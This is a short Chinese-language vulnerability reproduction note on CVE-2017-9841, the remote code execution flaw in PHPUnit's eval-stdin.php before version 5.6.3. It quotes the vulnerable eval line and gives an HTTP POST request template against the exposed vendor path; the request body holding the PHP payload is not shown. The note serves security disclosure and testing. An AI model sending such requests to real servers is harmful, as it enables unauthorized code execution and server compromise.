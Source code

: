 # PHPUnit eval-stdin.php 远程命令执行漏洞 CVE-2017-9841

## 漏洞描述

PHPUnit5.6.3之前的版本，存在一处远程代码执行漏洞，利用漏洞可以获取服务器敏感信息及权限。

## 漏洞影响

<a-checkbox checked>PHPUnit < 5.6.3</a-checkbox></br>

## 漏洞复现

漏洞位于 `/phpunit/src/Util/PHP/eval-stdin.php`

其中关键代码为:

```plain
eval('?>'.file_get_contents('php://input'));
```

发送如下请求包执行PHP代码

```plain
POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1
Host: 
Content-Length: 21
Accept-Encoding: gzip
```

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313100236521.png)